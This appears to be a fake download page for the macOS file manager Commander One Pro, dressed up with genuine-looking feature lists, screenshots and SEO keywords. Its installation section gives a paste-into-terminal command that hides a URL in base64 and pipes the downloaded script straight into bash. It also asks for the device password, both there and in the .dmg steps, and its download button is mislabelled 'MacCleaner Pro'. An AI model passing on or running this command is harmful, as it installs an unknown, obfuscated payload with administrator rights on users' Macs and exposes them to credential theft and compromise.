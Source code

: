 # Commander One Pro Mac Download

![Commander One Icon](https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/d4/f1/49/d4f14918-6c7b-ea07-c586-b70d5e2851e8/AppIcon-0-85-220-0-5-0-0-2x-0-0.png/1200x630bb.png)  

---

# ⬇️ Download Commander One Pro

[![⬇️ Download Now](https://img.shields.io/badge/MacCleaner%20%20Pro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/maccleaner)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 🧭 What is Commander One Pro?

**Commander One Pro** is an advanced **dual-pane file manager for macOS**, built to improve your workflow, give you deeper control over files, and replace the limited Finder experience with something more powerful and flexible.

Commander One Pro features **tabbed navigation**, **multi-selection support**, **advanced search by regex**, **file operations queue**, **hotkeys**, and even a built-in **Terminal emulator**. It’s an ideal solution for developers, power users, and anyone managing large sets of data.

What really sets it apart is its **native integration with cloud services and remote servers**. You can mount and manage files from **Google Drive, Dropbox, OneDrive, Amazon S3, WebDAV, FTP, FTPS, and SFTP** – all within the same interface. No extra apps or plugins needed.

It’s fully optimized for **macOS Ventura, Sonoma, and Apple Silicon (M1/M2/M3)** chips, ensuring excellent speed and performance. Whether you’re copying thousands of files, syncing remote servers, or navigating your local system, Commander One is built for speed and control.

Commander One also offers **Pro Pack features**, which include **file compression, extraction, process viewer, and root access mode** – making it a full-featured macOS toolset.

---

## 🧰 Key Features

- 🧭 **Dual-pane file manager** with tabs  
- ☁️ Mount and manage **cloud storage** and **remote servers**  
- 🔒 Supports **FTP, SFTP, WebDAV, Amazon S3, Dropbox, OneDrive**, and more  
- 🔎 **Advanced file search** with Regular Expressions  
- 🧩 Built-in **Terminal emulator**  
- 🗃️ View hidden files and manage system-level files  
- 📂 Easily **compress and extract** ZIP, RAR, TAR, 7zip, etc.  
- 🔧 Queue file operations and run in background  
- 🖥️ Compatible with **macOS Ventura, Sonoma** and **Apple Silicon**  
- ⚙️ **Customizable hotkeys**, themes, and layouts  

---

![Commander One Screenshot](https://commander-one.com/wp-content/uploads/2024/02/c1-screenshot.png)

---

## 💻 System Requirements

- **macOS:** 10.13 or later (Ventura/Sonoma supported)  
- **RAM:** 2 GB minimum  
- **Disk space:** 100 MB free  
- **Architecture:** Intel & Apple Silicon (Universal Binary)

---

## 🔑 Keywords

`commander one`, `one commander`, `commander one pro`, `commander one mac`,  
`commander one ftp`, `commander one download`, `commander 1`, `commander one file manager`,  
`commander one for mac`, `commander one mac os`, `mac commander one`, `macos commander`,  
`one commander review`, `commander one app`, `commander one download mac`,  
`commander one file manager mac`, `commander one mac download`, `commander one pro download`,  
`commander one pro mac`, `download commander one`, `download commander one for mac`, `one commander mac`

---
